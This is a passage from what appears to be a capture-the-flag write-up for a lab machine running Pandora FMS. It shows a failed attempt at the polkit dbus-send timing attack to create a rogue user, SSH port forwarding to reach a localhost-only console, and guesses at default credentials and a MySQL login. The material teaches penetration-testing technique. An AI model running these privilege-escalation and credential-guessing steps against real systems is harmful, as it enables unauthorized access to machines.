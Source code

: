 ```bash
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1

Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real    0m0.007s
user    0m0.000s
sys     0m0.002s
```

0.007s.

Need to kill dbus-send command after half of that:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.0045s ; kill $!
```

Let’s see if our user had been created:

```bash
id boris
```

Does not work. Trying to fuzz the time sleeping also did not work. 

Going back to the apache conf, turns out, the subdomain is bound only to the localhost. Let’s local port forward 80:

```bash
~C #in the ssh session
-L 80:localhost:80
```

![image.png]({{ site.baseurl }}/assets/pandora/image%205.png)

We are now on the pandora console. We see the version on the bottom of the page as well:

```bash
v7.0NG.742_FIX_PERL2020
```

Let’s find default password for pandoraFMS

![image.png]({{ site.baseurl }}/assets/pandora/image%206.png)

We try to login with default credentials:

```bash
root:pandora
admin:pandora
```

Did not work. Let’s try to connect to mysql:

```bash
mysql -u root -h localhost -p
```
